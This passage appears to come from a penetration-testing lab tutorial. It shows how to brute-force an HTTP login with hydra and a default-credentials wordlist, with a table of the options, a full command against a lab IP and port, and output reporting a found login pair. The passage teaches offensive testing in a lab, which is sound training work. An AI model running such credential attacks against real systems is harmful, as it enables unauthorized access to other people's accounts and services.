 Default passwords wordlist exists https://github.com/ihebski/DefaultCreds-cheat-sheet

|**Options**|**Description**|
|---|---|
|`-C ftp-betterdefaultpasslist.txt`|Combined Credentials Wordlist|
|`SERVER_IP`|Target IP|
|`-s PORT`|Target Port|
|`http-get`|Request Method|
|`/`|Target Path|

The assembled command results:

  Default Passwords

```shell-session
canklesmaks@htb[/htb]$ hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.211.23.155 -s 31099 http-get /

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking http-get://178.211.23.155:31099/
[31099][http-get] host: 178.211.23.155   login: test   password: testingpw
[STATUS] attack finished for 178.211.23.155 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```
